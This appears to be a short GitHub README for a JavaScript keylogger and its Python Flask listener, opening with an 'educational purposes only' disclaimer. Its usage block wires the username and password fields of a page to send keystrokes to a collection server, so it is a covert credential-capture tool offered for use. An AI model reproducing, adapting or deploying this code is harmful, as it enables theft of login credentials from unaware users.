 # Disclaimer

**This script is for educational purposes only. Do not use it for illegal activities. You are solely responsible for your own actions!**

## keylog

keylogging or keyboard capturing, is the action of recording (logging) the keys struck on a keyboard, typically covertly, so that a person using the keyboard is unaware that their actions are being monitored.

## Usage
> keylogger.js
```js
// Call the send function
send(element_id, server_url, parameter_name);

// For listener.py
// According to listener.py the route should be '/main'
// Parameters for username and password should be username and password
send('user','http://localhost:5959/main','username');
send('pass','http://localhost:5959/main','password');
```
***Install flask***
```bash
pip3 install flask
```

